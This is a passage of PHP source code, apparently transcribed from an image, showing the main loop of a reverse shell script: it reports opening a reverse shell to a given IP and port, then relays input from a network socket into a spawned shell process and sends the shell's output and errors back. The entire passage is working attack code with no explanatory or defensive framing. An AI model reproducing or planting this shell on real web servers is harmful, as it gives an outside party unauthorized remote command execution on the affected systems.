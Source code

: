 ```php
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
